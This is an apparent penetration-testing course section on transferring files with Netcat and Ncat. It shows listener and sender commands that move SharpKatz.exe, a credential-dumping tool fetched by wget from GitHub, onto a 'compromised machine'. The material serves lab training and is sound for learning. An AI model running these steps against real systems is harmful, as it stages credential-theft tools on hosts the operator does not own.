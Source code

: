 # Miscellaneous File Transfer Methods

## Introduction

We've covered various methods for transferring files on Windows and Linux. We also covered ways to achieve the same goal using different programming languages, but there are still many more methods and applications that we can use.

This section covers alternative methods such as transferring files using Netcat, Ncat and using RDP and PowerShell sessions.

## Netcat

Netcat (often abbreviated to `nc`) is a computer networking utility for reading from and writing to network connections using TCP or UDP, which means that we can use it for file transfer operations.

The original Netcat was released by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce Ncat, a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.

**⚠️ Note:** Ncat is used in HackTheBox's PwnBox as `nc`, `ncat`, and `netcat`.

### File Transfer with Netcat and Ncat

The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target.

#### Method 1: Target as Listener

**NetCat - Compromised Machine - Listening on Port 8000:**
```bash
# Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

**Ncat - Compromised Machine - Listening on Port 8000:**
```bash
# Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

**⚠️ Note:** If the compromised machine is using Ncat, we need to specify `--recv-only` to close the connection once the file transfer is finished.

**Netcat - Attack Host - Sending File to Compromised machine:**
```bash
# Download the file first
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

# Example using Original Netcat
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

**Ncat - Attack Host - Sending File to Compromised machine:**
```bash
# Download the file first
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

# Example using Ncat
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
